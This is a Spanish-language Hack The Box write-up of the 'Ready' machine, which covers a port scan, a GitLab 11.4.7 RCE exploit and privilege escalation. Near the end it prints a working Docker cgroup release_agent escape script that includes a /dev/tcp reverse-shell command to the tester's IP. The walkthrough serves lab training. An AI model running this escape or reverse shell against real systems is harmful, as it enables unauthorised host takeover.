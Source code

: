 ```yaml
---
title: "Ready - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "assets/images/machines/ready/data/ready.png"
  teaser_home_page: true
  icon: "assets/images/icons/Hackthebox2.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - Doker
  - RCE (Remote Code Execution)
  - GitLab
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/data/readyHTB.png">
</p>

La máquina **Ready** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **medio** una puntuación de 4.2, **6646 USER OWNS** y **5768 SYSTEM OWNS** con la ip **10.10.10.220** y un sistema operativo **Linux**.

### Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.220]** utilizando los parámetros:
  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/scan/scanPort.png">
  </p>

  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,5080**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/scan/Ports.png">
  </p>

  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

    - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
    - **-sV:** Detección de versiones en servicios alojados en puertos.
    - **-p :** Puertos a inspeccionar.
    - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/scan/PortServ.png">
  </p>

  Lo que **nmap** nos muestra es exite un servicio ***HTTP*** en el puerto 5080 con un **robots.txt** habilitado.
  Si entramos a la pagina web vemos que es tiene como **cms** un GitLab.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/scan/page.png">
  </p>

  Ya que nos permite crear una cuenta procedo a crear la cuenta:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/scan/pageLogin.png">
  </p>


## Movimiento Lateral

  Ya dentro de la cuenta que acabo de crear, enumerando pude encontrar la versión de **GitLab** la cual es **11.4.7**, buscando con la herramienta de **searchsploit** la versión del CMS encontre que tiene varios exploits que nos permiten hacen un ataque de Remote Code Execution:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/intrusion/version.png">
  </p>
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/intrusion/searchsploit.png">
  </p>

  Examinando el exploit con el **id 49334** ya que pide autenticación usamos ese con las credenciales que acabamos de crear, examinando el exploit se modifico unas lineas ya que tenia algunos errores, se modifico la linea **29** ya que la variable **local_port** estaba tomando el argumento de la variable **password** y a al momento de ejecutar el exploit las credenciales se enviaban mal, tambien se modifico la linea **59** que esa linea corresponde a el payload, se le agrego el argumento **-e /bin/bash** esto fue asi porque a la hora de ejecutar el exploit nos da la conexion pero no nos permite ejcutar ningun comando y a veces da un error, para asegurar la shell le agregamos estos parametros:

  <div align="center">
  <table class="center"><tr>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/intrusion/expModpa.png">
  <div class="caption" >Before.</div></center></td>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/intrusion/expModpb.png">
  <div class="caption">After.</div></center></td>
  </tr></table>
  </div>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/intrusion/expModB.png">
  </p>

Una vez que ya hice los cambios me puse por el puerto **443** en escucha con Netcat  ejecute el exploit pasado menos de 5 seg. me llego la conexion y con ella la shell:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/intrusion/shell.png">
</p>

## Escalación de privilegios

Una vez que ya estoy dentro de la maquina como el usuario **git** me dirijo a la ruta **/tmp/** y creo un directorio llamado **/winsad** ahi dentro me descargo de mi maquina el binario de **linpeas.sh** con **wget** para poder hacer una enumeracion del sistema y encontrar una forma de escalar privilegios, ejecutando el binario me encontre una credencial en texto plano que pertenecia al usuario **root** dentro del archivo **/opt/backup/gitlab.rb**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/intrusion/passwd.png">
</p>

Ya que tenemos las credenciales de **root** entramos a su directorio personal y vemos que la **flag** de root no esta, lo que genera sospechas ya que podriamos estar en un **Doker**, ya que el mismo **linpeas** nos dio informacion que no puedo dar muchas pistas de esto mismo y agregar que el comando **ifconfig**, **ip -a** no estaban habilitados o disponibles en la maquina.

Una prueba que podemos ver si estamos en un **Contenedor-Doker** es haciendo un **cat** a la ruta ```/proc/1/cgroup```.

cgroups significa "grupos de control". Es una característica de Linux que aísla el uso de recursos y es lo que Docker utiliza para aislar los contenedores. Puedes saber si estás en un contenedor comprobando el grupo de control del proceso init en /proc/1/cgroup. Si no estás dentro de un contenedor, el grupo de control debería ser /. Por otro lado, si estás dentro de un contenedor, deberías ver /docker/CONTAINER_ID en su lugar.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/intrusion/docker1.png">
</p>

Ya que sabemos que estamos en un **Docker** buscando en internet como escapar de un contenedor me encuentro con un articulo el cual explica el como poder escapar de estos mismo.

En el articulo explican que para poder escapar tenemos que ver si el contenedor tiene algun privilegio establecido para ver esto usamos el comando ```#ip link add dummy0 type dummy ```  esto se hace ya que este comando requiere la capacidad **NET_ADMIN**, que el contenedor tendría si tiene privilegios y si este comando se ejecuta con éxito, puede concluir que el contenedor tiene la capacidad **NET_ADMIN**.

En este caso ya que el comando **ip** esta desabilitado no podemos hacer la prueba pero en el mismo articulo nos explican como podriamos ejecutar comandos en la maquina host estando dentro del contenedor, se seguiria los siguientes comandos:

```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/bash' > /cmd
echo " bash -i >& /dev/tcp/10.10.15.125/444 0>&1> $host_path/output" >> /cmd <-- Insertamos la revershell
chmod a+x /cmd

bash -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
Ya ejecutado estas sentencia de comando vemos que efectivamente pudimos salir del docker ejecutando comandos en la maquina host.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/ready/intrusion/root.png">
</p>


## Referencias

https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1

https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/

https://www.youtube.com/watch?v=_dhONyAk4es
